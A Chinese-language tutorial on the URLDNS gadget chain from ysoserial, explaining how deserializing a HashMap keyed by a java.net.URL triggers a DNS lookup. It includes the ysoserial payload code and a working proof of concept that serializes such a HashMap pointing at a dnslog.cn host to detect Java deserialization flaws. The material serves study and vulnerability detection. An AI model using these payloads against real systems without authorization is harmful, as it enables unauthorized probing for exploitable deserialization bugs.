 # Java安全学习-URLDNS链

Author: H3rmesk1t

# 前言
> `URLDNS`是`ysoserial`中的一条利用链，通常用于检测是否存在`Java`反序列化漏洞，该利用链具有如下特点

```php
[1] URLDNS 利用链只能发起 DNS 请求，并不能进行其它利用
[2] 不限制 jdk 版本，使用 Java 内置类，对第三方依赖没有要求
[3] 目标无回显，可以通过 DNS 请求来验证是否存在反序列化漏洞
```

# 原理
> `java.util.HashMap`实现了`Serializable`接口，重写了`readObject`, 在反序列化时会调用`hash`函数计算`key`的`hashCode`，而`java.net.URL`的`hashCode`在计算时会调用`getHostAddress`来解析域名, 从而发出`DNS`请求

# 分析过程
> 这里跟着`ysoserial`项目中`URLDNS`的`Gadget`来分析

```java
Gadget Chain:
    HashMap.readObject()
    HashMap.putVal()
    HashMap.hash()
    URL.hashCode()
```
> 先跟进`HashMap`，看看其自己实现的`readObject()`函数，这里通过`for`循环来将`HashMap`中存储的`key`通过`K key = (K) s.readObject();`来进行反序列化，在这之后调用`putVal()`和`hash()`函数

<img src="./images/1.png" alt="">

> 先跟进`hash()`函数看看是如何实现的，当`key!=null`时会调用`hashCode()`函数

<img src="./images/2.png" alt="">

> 跟进`hashCode()`函数，由于在`ysoserial`中的`URLDNS`是利用`URL`对象，于是跟进`Java`基本类`URL`中关于`hashCode()`的部分`java/net/URL.java`，由于`hashCode`的值默认为`-1`，因此会执行`hashCode = handler.hashCode(this);`

<img src="./images/3.png" alt="">

> 看看`handler.hashCode()`函数是如何实现的，这里利用一个`Demo`代码来调试看看

```java
import java.net.URL;

public class URLDemo {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://6ppzw1.dnslog.cn");
        url.hashCode();
    }
}
```
> 先看看请求之后的结果，成功触发了`DNS`请求，来看看是如何实现的

<img src="./images/4.png" alt="">

> 调试跟进`java/net/URLStreamHandler.java`中的`hashCode()`函数，可以看到这里调用了一个函数`getHostAddress()`来进行`DNS`解析返回对应的`IP`

<img src="./images/5.png" alt="">

> 在`ysoserial`中是通过`put()`函数来触发的，其实这一步的实现和前面的是一样的，都是通过`hash()`函数来实现的

<img src="./images/6.png" alt="">

> 但是上面的分析过程仿佛和反序列化并没有什么关联，其实当`HashMap`传入一个`URL`对象时，会进行一次`DNS`解析，并且`HashMap`实现了`Serializable`接口，重写了`readObject`，也就是说当一个`Java`应用存在反序列化漏洞时，可以通过传入一个序列化后的`HashMap`数据(将`URL`对象作为`key`放入`HashMap`中)，当传入的数据到达该`Java`应用的反序列化漏洞点时，这时程序就会调用`HashMap`重写的`readObject()`函数来反序列化读取数据，进而触发`key.hashCode()`函数进行一次`DNS`解析

# ysoserial 项目代码分析
> 在`ysoserial`项目中`URLDNS`的代码并没有这么简单，还有一些其他的代码段，来看看这些"多余的"代码的用处是啥

```java
public class URLDNS implements ObjectPayload<Object> {
        public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();
                HashMap ht = new HashMap();
                URL u = new URL(null, url, handler);
                ht.put(u, url); 
                Reflections.setFieldValue(u, "hashCode", -1);
                return ht;
        }
        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }
                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```
> 这里通过继承`URLStreamHandler`类，重写`openConnection()`和`getHostAddress()`函数，而这里重写的目的在于: `HashMap#put`时也会调用`getHostAddress()`函数进行一次`DNS`解析，这里就是通过重写的`getHostAddress()`函数来覆盖掉原函数，从而使其不进行`DNS`解析，避免在`Payload`在创建的时候进行`DNS`解析

> 代码`Reflections.setFieldValue(u, "hashCode", -1);`中的`setFieldValue()`函数是`ysoserial`项目自定义的一个反射类中的函数

```java
public class Reflections {
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
}
```
> 上述代码通过反射来设置`URL`类的`hashCode`的值为`-1`，这是因为在`HashMap#put`时已经调用过一次`hashCode()`函数，`hashCode`的值会改变不再为`-1`，这样会导致在下一步经过`HashMap`的`readObject()`函数反序列化时直接返回`hashCode`的值，不再调用`handler.hashCode(this)`，因此利用反射来将`hashCode`的值设为`-1`

> 最后利用`PayloadRunner.run()`来进行反序列化

##  POC链

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.text.SimpleDateFormat;
import java.util.Date;
import java.util.HashMap;

public class URLDemo {

    public static void main(String[] args) throws Exception {
        Date nowTime = new Date();
        HashMap hashmap = new HashMap();
        URL url = new URL("http://lttx9f.dnslog.cn");
        SimpleDateFormat simpleDateFormat = new SimpleDateFormat("yyyy-MM-dd hh:mm:ss");
        Field filed = Class.forName("java.net.URL").getDeclaredField("hashCode");
        filed.setAccessible(true);  // 绕过Java语言权限控制检查的权限
        filed.set(url, 209);
        hashmap.put(url, 209);
        System.out.println("当前时间为: " + simpleDateFormat.format(nowTime));
        filed.set(url, -1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./dnsser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();

            FileInputStream fileInputStream = new FileInputStream("./dnsser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

> 从请求结果中可以看出，在`Payload`生成阶段并没有发起`DNS`解析，而是在后续反序列化过程中进行的请求

<img src="./images/7.png" alt="">